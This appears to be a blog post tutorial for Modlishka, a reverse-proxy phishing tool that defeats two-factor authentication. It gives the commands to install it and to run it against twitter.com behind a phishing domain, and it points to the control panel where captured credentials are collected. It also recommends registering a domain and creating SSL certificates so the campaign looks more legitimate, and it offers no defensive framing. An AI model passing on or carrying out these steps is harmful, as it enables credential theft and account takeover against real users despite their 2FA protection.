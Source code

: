 ```yaml
---
layout: post
title: Modlishka 2FA Phishing Tool
date: 2018-03-15
image: '/images/posts/modlishka.jpg'
categories: ["tools"]
tags: ["tools"]
---
```


## Open Source Phishing Tool With 2FA Authentication

<!--more-->

Modlishka is a really neat tool based on go. It is a phishing proxy that supports 2FA authentication. This is what makes this tool so great.

The tool is simple to configure and allows the attacker to control all traffic from the target's browser.

Let's install and test Modlishka:

<h1> Installing Modlishka </h1>

You will need to download the repo from github with the following command:
```
go get -u github.com/drk1wi/Modlishka
```

Then traverse to the 'go' folder and run the below followed with the make command:

```
cd $GOPATH/go/src/github.com/drk1wi/Modlishka/
```

```
make
```
And that's all.


<h1>Actually Running Modlishka </h1>
To run the proxy go to the 'dist' folder and run the 'proxy' script
```
cd dist/
```
```
./proxy -h
```
<br>
<img src="/modlishkahelp.jpg" alt="ModlishkaHelp">

<br>

As you can see, Modlishka comes with some pretty flashy features. It allows you to create your own SSL certification using openssl which will allow your phishing campaign to look more trustworthy and legitimate. You will likely want to register a domain name to further the false legitimacy.
<br>
It also allows you to bypass some security measures such as anti-SSRF.
Run the command below against a target site to see the proxy in action. The phishingDomain option can be changed to fit you needs. I am using the loopback.modlishka.io which requires you to change the index.html file inside the apache folder (/var/www/).

```
./proxy -target https://twitter.com -phishingDomain local.modlishka.com -listeningPort 80
```
<br>
<img src="/img/modlishkarun.jpg" alt="ModlishkaRun">

<br>

You can then access the control panel to see all the credentials you captured. To do this, visit the below in your browser:
```
http://local.modlishka.com/SayHello2Modlishka/
```
<br>

Below is a shared video demonstrating Modlishka in real-time
<br>
<iframe src="https://player.vimeo.com/video/308709275" width="640" height="360" frameborder="0" allowfullscreen></iframe>


<br>

Thanks for reading!
